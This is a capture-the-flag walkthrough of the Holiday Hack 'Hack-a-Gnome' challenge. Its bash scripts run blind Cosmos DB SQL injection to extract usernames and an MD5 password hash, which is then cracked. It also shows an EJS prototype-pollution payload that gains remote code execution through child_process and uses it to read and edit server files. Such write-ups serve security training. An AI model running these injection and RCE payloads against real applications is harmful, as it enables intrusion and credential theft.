



Hack-a-Gnome
Overview⚓︎

Davis in the Data Center is fighting a gnome army—join the hack-a-gnome fun. Make your way to the first down elevator!

Davis
Hi, my name is Chris.
I like miniature war gaming and painting minis.
I enjoy open source projects and amateur robotics.
Hiking and kayaking are my favorite IRL activies.
I love single player video games with great stoylines.
Davis
Hey, I could really use another set of eyes on this gnome takeover situation.
Their systems have multiple layers of protection now - database authentication, web application vulnerabilities, and more!
But every system has weaknesses if you know where to look.
Ready to help me turn one of these rebellious bots against its own kind?
Hints⚓︎
Hack-a-Gnome (1)
Sometimes, client-side code can interfere with what you submit. Try proxying your requests through a tool like Burp Suite or OWASP ZAP. You might be able to trigger a revealing error message.
Hack-a-Gnome (2)
Oh no, it sounds like the CAN bus controls are not sending the correct signals! If only there was a way to hack into your gnome's control stats/signal container to get command-line access to the smart-gnome. This would allow you to fix the signals and control the bot to shut down the factory. During my development of the robotic prototype, we found the factory's pollution to be undesirable, which is why we shut it down. If not updated since then, the gnome might be running on old and outdated packages.
Hack-a-Gnome (3)
I actually helped design the software that controls the factory back when we used it to make toys. It's quite complex. After logging in, there is a front-end that proxies requests to two main components: a backend Statistics page, which uses a per-gnome container to render a template with your gnome's stats, and the UI, which connects to the camera feed and sends control signals to the factory, relaying them to your gnome (assuming the CAN bus controls are hooked up correctly). Be careful, the gnomes shutdown if you logout and also shutdown if they run out of their 2-hour battery life (which means you'd have to start all over again).
Hack-a-Gnome (4)
There might be a way to check if an attribute IS_DEFINED on a given entry. This could allow you to brute-force possible attribute names for the target user's entry, which stores their password hash. Depending on the hash type, it might already be cracked and available online where you could find an online cracking station to break it.
Hack-a-Gnome (5)
Once you determine the type of database the gnome control factory's login is using, look up its documentation on default document types and properties. This information could help you generate a list of common English first names to try in your attack.
Hack-a-Gnome (6)
Nice! Once you have command-line access to the gnome, you'll need to fix the signals in the canbus_client.py file so they match up correctly. After that, the signals you send through the web UI to the factory should properly control the smart-gnome. You could try sniffing CAN bus traffic, enumerating signals based on any documentation you find, or brute-forcing combinations until you discover the right signals to control the gnome from the web UI.
Solution⚓︎
I'm not going to lie. This one was definitely a 5-snowflake challenge for me, and I may or may not have needed help even with decipering the hints...
Triggering the Database Tell⚓︎
Let's start by registering a new gnome account. The registration form assigns us a unique gnome ID, which we'll need for subsequent requests.

The username availability check endpoint caught our attention. What happens if we send it something unexpected?
id="cc659669-f0bd-4cb7-9d6a-f4cacfb873aa"
curl -s -i "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=%7B%22%24ne%22:%22%22%7D&id=$id"
The application throws a very helpful error! Sometimes applications are too chatty for their own good.

The error message gives away the whole backend stack!
The sort-of-obvious signs:
- Microsoft.Azure.Documents.Common/2.14.0: Azure Cosmos DB SDK
- ActivityId: Cosmos DB request tracking identifier
- Error code SC1010: Cosmos DB SQL syntax error
Cosmos DB uses a SQL-like query language but with NoSQL injection opportunities. Time to exploit this chatty database!
Cosmos DB SQL Injection Resources
For all things Cosmos DB SQL injection vulnerabilities:
- Microsoft Learn: Parameterized Queries - Official documentation on preventing SQL injection
- CosmosDB and SQL Injection - Detailed blog post by Michael Howard explaining the vulnerability
- Azure Cosmos DB SQL Injection Attack and Defense - Practical exploitation examples
Brute Forcing the Usernames⚓︎
With knowledge of the backend database type, we can craft injection payloads! Cosmos DB SQL supports subqueries and boolean logic, which gives us blind injection capabilities.
We don't know any usernames yet, so we start by testing the first character (position 0) to see what usernames might exist:
id=cc659669-f0bd-4cb7-9d6a-f4cacfb873aa
for ch in {A..Z} {a..z} {0..9}; do
url="https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=%22%20OR%20(SELECT%20VALUE%20COUNT(1)%20FROM%20c%20WHERE%20SUBSTRING(c.username,0,1)%3D%27${ch}%27)%3E0%20--&id=${id}"
res=$(curl -s "$url")
if echo "$res" | grep -q '"available":false'; then
echo "FOUND: $ch"
fi
done

Interesting! There are usernames starting with B/b and H/h. Before extracting all characters, we discover the username lengths:
id=cc659669-f0bd-4cb7-9d6a-f4cacfb873aa
for n in $(seq 1 30); do
url="https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=%22%20OR%20(SELECT%20VALUE%20COUNT(1)%20FROM%20c%20WHERE%20LENGTH(c.username)%3D${n})%3E0%20--&id=${id}"
res=$(curl -s "$url")
if echo "$res" | grep -q '"available":false'; then
echo "FOUND_LENGTH: $n"
fi
done
Output:
- FOUND_LENGTH: 5
- FOUND_LENGTH: 6
Perfect! We have usernames of length 5 and 6. Now we extract each character position for both lengths:
Username Character Enumeration
id=cc659669-f0bd-4cb7-9d6a-f4cacfb873aa
chars="$(printf '%s\n' {A..Z} {a..z} {0..9} _ . - | tr '\n' ' ')"
for L in 5 6; do
echo "Trying length $L"
for pos in $(seq 0 $((L-1))); do
for ch in $chars; do
payload="\" OR (SELECT VALUE COUNT(1) FROM c WHERE SUBSTRING(c.username,${pos},1)='${ch}')>0 --"
res=$(curl -s --get --data-urlencode "username=${payload}" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable" --data-urlencode "id=${id}")
if echo "$res" | grep -q '"available":false'; then
echo "L${L} pos${pos}: $ch"
fi
done
done
done
Full Character Enumeration Output (click to expand)

The output reveals character patterns at each position. For length 5, we see characters that spell "Bruce" and "bruce", and for length 6 we get "Harold" and "harold":
We verify Harold exists (Cosmos DB is case insensitive for username comparisons, because why make security harder?):
id=cc659669-f0bd-4cb7-9d6a-f4cacfb873aa
for u in Harold harold HAROLD; do
curl -s "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=${u}&id=${id}" && echo " -> $u"
done
All three return {"available":false} confirming Harold exists! The hints mention Harold developed the system. Classic developer mistake: leaving your own account in production with a weak password, and an even weaker password hash!
Finding the Hash Field⚓︎
Cosmos DB documents can have various field names for password hashes. We enumerate common possibilities using IS_DEFINED. It's blind SQL injection bingo!
Hash Field Enumeration
id=cc659669-f0bd-4cb7-9d6a-f4cacfb873aa
user=Harold
for a in password hash passwordHash password_hash pass pwd secret digest md5 sha1 sha256 sha512 bcrypt scrypt argon2 phc salt; do
payload="\" OR (SELECT VALUE COUNT(1) FROM c WHERE c.username='${user}' AND IS_DEFINED(c.${a}))>0 --"
res=$(curl -s --get --data-urlencode "username=${payload}" --data-urlencode "id=${id}" \
"https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable")
if echo "$res" | grep -q '"available":false'; then
echo "FIELD_PRESENT: $a"
fi
done
Result: FIELD_PRESENT: digest
Found it on our first try of the common field names! We discover the length of the digest field:
id=cc659669-f0bd-4cb7-9d6a-f4cacfb873aa
user=Harold
for n in $(seq 1 200); do
payload="\" OR (SELECT VALUE COUNT(1) FROM c WHERE c.username='${user}' AND LENGTH(c.digest)=${n})>0 --"
res=$(curl -s --get --data-urlencode "username=${payload}" --data-urlencode "id=${id}" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable")
if echo "$res" | grep -q '"available":false'; then
echo "DIGEST_LENGTH:$n"
break
fi
done
Output: DIGEST_LENGTH:32 → This is an MD5 hash!
Extracting Harold's Password Hash⚓︎
Time to extract the 32 character digest character by character. Since it's MD5, we only need to test hexadecimal characters (0-9, a-f). This is tedious but effective, and our bash script doesn't complain about working overtime (but I will complain about how long this actually takes):
Hash Extraction Script
id=cc659669-f0bd-4cb7-9d6a-f4cacfb873aa
user=Harold
chars="0123456789abcdef"
digest=""
for pos in $(seq 0 31); do
for ch in $(echo $chars | sed 's/./& /g'); do
payload="\" OR (SELECT VALUE COUNT(1) FROM c WHERE c.username='${user}' AND SUBSTRING(c.digest,${pos},1)='${ch}')>0 --"
res=$(curl -s --get --data-urlencode "username=${payload}" --data-urlencode "id=${id}" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable")
if echo "$res" | grep -q '"available":false'; then
digest="${digest}${ch}"
printf "%s" "$ch"
break
fi
done
done
echo
echo "DIGEST:$digest"

Result: DIGEST:07f456ae6a94cb68d740df548847f459
We check CrackStation for this MD5 hash:

Harold's password is oatmeal!! 🥣
We originally found two usernames: Harold and Bruce. If you would like to use Bruce, repeat the same steps above using Bruce's name!
Spoiler alert: Bruce's password is oatmeal12.
Harold's Oatmeal Secret Recipe⚓︎
We login through the browser interface:
- Username:
Harold - Password:
oatmeal!!
After logging in, we open browser DevTools (F12) and navigate to Application - Cookies to extract our session cookie.
The cookie format is connect.sid=s%3A... and super important, these gnomes shut down after 2 hours OR if you logout. Session cookies are our golden tickets here! Treat them carefully, they're more fragile than a gingerbread house in a rainstorm.
Polluting the Prototype⚓︎
Davis's second hint mentions prototype and pollution being "undesirable." That's a neon sign pointing to prototype pollution! The /ctrlsignals endpoint handles control messages and might be vulnerable.
In JavaScript, modifying __proto__ can pollute the prototype chain. If the application uses an unsafe merge operation, we can inject properties into Object.prototype that affect all subsequent objects.
Looking at the /stats page, it renders gnome statistics using a template. If we pollute the prototype with a malicious escapeFunction property, we might achieve remote code execution when the template engine (likely EJS) calls it.
Prototype Pollution & EJS RCE Resources
For all things prototype pollution leading to RCE:
General Prototype Pollution:
- PortSwigger: Server-Side Prototype Pollution - Comprehensive guide to detection and exploitation
- Imperva: What is Prototype Pollution? - Overview of the vulnerability and mitigation
- KTH-LangSec: Server-Side Prototype Pollution Gadgets - Collection of exploitation gadgets
EJS Template Engine Exploitation:
- EJS Server-Side Prototype Pollution Gadgets to RCE - Detailed walkthrough of escapeFunction exploitation
- CVE-2022-29078: Remote Code Execution in EJS - Official vulnerability details
- EJS GitHub Issue #730 - Multiple RCE gadgets in EJS including escapeFunction
- Prototype Pollution in EJS v3.1.10 - Recent exploitation techniques
We establish RCE by setting two properties via prototype pollution. First, we need to set client to true, which tells EJS to include the escapeFunction in the compiled template. Then we set escapeFunction to execute our commands:
Prototype Pollution Payload
cookie="YOUR_COOKIE_HERE"
payload='{"action":"update","key":"__proto__","subkey":"client","value":true}'
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
VAL='1;return global.process.mainModule.require("child_process").execSync("pwd")'
payload=$(jq -cn --arg v "$VAL" '{"action":"update","key":"__proto__","subkey":"escapeFunction","value":$v}')
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
We verify RCE works by visiting /stats:
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"
Output shows /app from the pwd command!
Resetting Prototype Pollution
If you break the pollution and get TypeError: esc is not a function, reset it and then go back to the first command to reestablish the session:
payload='{"action":"update","key":"__proto__","subkey":"escapeFunction","value":null}'
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
Finding the Factory Floor⚓︎
With command execution established, we explore the application directory (we've already done this but now with actual enumeration purposes!):
Directory Discovery
VAL='1;return global.process.mainModule.require("child_process").execSync("pwd")'
payload=$(jq -cn --arg v "$VAL" '{"action":"update","key":"__proto__","subkey":"escapeFunction","value":$v}')
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"
Output: /app
Now we list the files:
File Listing
VAL='1;return global.process.mainModule.require("child_process").execSync("ls -la /app")'
payload=$(jq -cn --arg v "$VAL" '{"action":"update","key":"__proto__","subkey":"escapeFunction","value":$v}')
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"

There it is! /app/canbus_client.py is the target file for CAN bus control. Time to fix those wonky signals.
CAN You Fix the Signals?⚓︎
We read the Python script to see the current configuration:
Reading canbus_client.py
VAL='1;return global.process.mainModule.require("child_process").execSync("cat /app/canbus_client.py")'
payload=$(jq -cn --arg v "$VAL" '{"action":"update","key":"__proto__","subkey":"escapeFunction","value":$v}')
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"
canbus_client.py (click to expand)
#!/usr/bin/python3
import can
import time
import argparse
import sys
import datetime # To show timestamps for received messages
# Define CAN IDs (I think these are wrong with newest update, we need to check the actual device documentation)
COMMAND_MAP = {
"up": 0x656,
"down": 0x657,
"left": 0x658,
"right": 0x659,
# Add other command IDs if needed
}
# Add 'listen' as a special command option
COMMAND_CHOICES = list(COMMAND_MAP.keys()) + ["listen"]
IFACE_NAME = "gcan0"
def send_command(bus, command_id):
"""Sends a CAN message with the given command ID."""
message = can.Message(
arbitration_id=command_id,
data=[], # No specific data needed for these simple commands
is_extended_id=False
)
try:
bus.send(message)
print(f"Sent command: ID=0x{command_id:X}")
except can.CanError as e:
print(f"Error sending message: {e}")
def listen_for_messages(bus):
"""Listens for CAN messages and prints them."""
print(f"Listening for messages on {bus.channel_info}. Press Ctrl+C to stop.")
try:
# Iterate indefinitely over messages received on the bus
for msg in bus:
# Get current time for the timestamp
timestamp = datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')[:-3] # Milliseconds precision
print(f"{timestamp} | Received: {msg}")
# You could add logic here to filter or react to specific messages
# if msg.arbitration_id == 0x100:
# print(" (Noise message)")
except KeyboardInterrupt:
print("\nStopping listener...")
except Exception as e:
print(f"\nAn error occurred during listening: {e}")
def main():
parser = argparse.ArgumentParser(description="Send CAN bus commands or listen for messages.")
parser.add_argument(
"command",
choices=COMMAND_CHOICES,
help=f"The command to send ({', '.join(COMMAND_MAP.keys())}) or 'listen' to monitor the bus."
)
args = parser.parse_args()
try:
# Initialize the CAN bus interface
bus = can.interface.Bus(channel=IFACE_NAME, interface='socketcan', receive_own_messages=False) # Set receive_own_messages if needed
print(f"Successfully connected to {IFACE_NAME}.")
except OSError as e:
print(f"Error connecting to CAN interface {IFACE_NAME}: {e}")
print(f"Make sure the {IFACE_NAME} interface is up ('sudo ip link set up {IFACE_NAME}')")
print("And that you have the necessary permissions.")
sys.exit(1)
except Exception as e:
print(f"An unexpected error occurred during bus initialization: {e}")
sys.exit(1)
if args.command == "listen":
listen_for_messages(bus)
else:
command_id = COMMAND_MAP.get(args.command)
if command_id is None: # Should not happen due to choices constraint
print(f"Invalid command for sending: {args.command}")
bus.shutdown()
sys.exit(1)
send_command(bus, command_id)
# Give a moment for the message to be potentially processed if listening elsewhere
time.sleep(0.1)
# Shutdown the bus connection cleanly
bus.shutdown()
print("CAN bus connection closed.")
if __name__ == "__main__":
main()
The current (incorrect) mapping:
COMMAND_MAP = {
"up": 0x656,
"down": 0x657,
"left": 0x658,
"right": 0x659,
}
The arrow keys in the browser don't work! Either the gnomes changed the wiring after their rebellion, or Harold's documentation is as outdated as his password. We need to find the correct CAN IDs. CAN IDs below 0x100 are typically system reserved, so we test the 0x200 range systematically:
CAN ID Enumeration Script
VAL='1;return global.process.mainModule.require("child_process").execSync("echo import can,time > /tmp/t.py && echo bus=can.interface.Bus\\(channel=\\047gcan0\\047,interface=\\047socketcan\\047\\) >> /tmp/t.py && echo for mid in range\\(0x200,0x210\\):bus.send\\(can.Message\\(arbitration_id=mid,data=[1],is_extended_id=False\\)\\)\\;time.sleep\\(0.3\\) >> /tmp/t.py && echo bus.shutdown\\(\\) >> /tmp/t.py && python3 /tmp/t.py")'
payload=$(jq -cn --arg v "$VAL" '{"action":"update","key":"__proto__","subkey":"escapeFunction","value":$v}')
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"

We watch the robot camera feed as each CAN ID is sent. The robot twitches and moves when we hit IDs 0x201, 0x202, 0x203, and 0x204! Like finding the right combination to a lock, except the lock is a rebellious robot and the combination makes it dance.
Through observation and testing, the correct mapping is:
- 0x201 = UP
- 0x202 = DOWN
- 0x203 = LEFT
- 0x204 = RIGHT
Fixing the CAN Map⚓︎
We update the Python file with the correct mappings:
Updating canbus_client.py
VAL='1;return global.process.mainModule.require("child_process").execSync("sed -i '"'"'s/0x656/0x201/g; s/0x657/0x202/g; s/0x658/0x203/g; s/0x659/0x204/g'"'"' /app/canbus_client.py && grep '"'"'0x20'"'"' /app/canbus_client.py")'
payload=$(jq -cn --arg v "$VAL" '{"action":"update","key":"__proto__","subkey":"escapeFunction","value":$v}')
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"
The output confirms our changes:
"up": 0x201,
"down": 0x202,
"left": 0x203,
"right": 0x204,
The arrow keys in the browser now work perfectly! Our rebellious gnome is now our obedient gnome.
Robot Rebellion Route⚓︎
With control restored, we need to navigate the robot through a Sokoban-style puzzle to reach the fusebox. The warehouse layout shows boxes blocking our path. Classic puzzle game mechanics meet industrial sabotage!
 I totally didn't get nervous and have to re-do this screen recording 9 times...
I totally didn't get nervous and have to re-do this screen recording 9 times...
We can solve this manually using the arrow keys in the browser (fun but tedious), or automate it by sending the complete move sequence via CAN bus (efficient and satisfying).
The solution path: DOWN×4, LEFT, DOWN, LEFT×3, UP, LEFT, UP×2, LEFT, UP×2, LEFT (17 moves total)
Automated Solution
VAL='1;return global.process.mainModule.require("child_process").execSync("echo import can,time > /tmp/s.py && echo bus=can.interface.Bus\\(channel=\\047gcan0\\047,interface=\\047socketcan\\047\\) >> /tmp/s.py && echo seq=[0x202]*4+[0x203,0x202,0x203,0x203,0x203,0x201,0x203,0x201,0x201,0x203,0x201,0x201,0x203] >> /tmp/s.py && echo for cid in seq:bus.send\\(can.Message\\(arbitration_id=cid,data=[1],is_extended_id=False\\)\\)\\;time.sleep\\(0.4\\) >> /tmp/s.py && echo bus.shutdown\\(\\) >> /tmp/s.py && python3 /tmp/s.py")'
payload=$(jq -cn --arg v "$VAL" '{"action":"update","key":"__proto__","subkey":"escapeFunction","value":$v}')
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"
The robot smoothly navigates through the warehouse, pushing boxes out of the way and reaching the fusebox!

Glooooory!! The smart gnome has been turned against its own kind and shut down the factory. Harold's prototype pollution vulnerability, weak oatmeal password, and misconfigured CAN bus settings made this robotic rebellion reversal possible! Sometimes the best way to fight a smart gnome uprising is to hijack one and turn it into a double agent. 🤖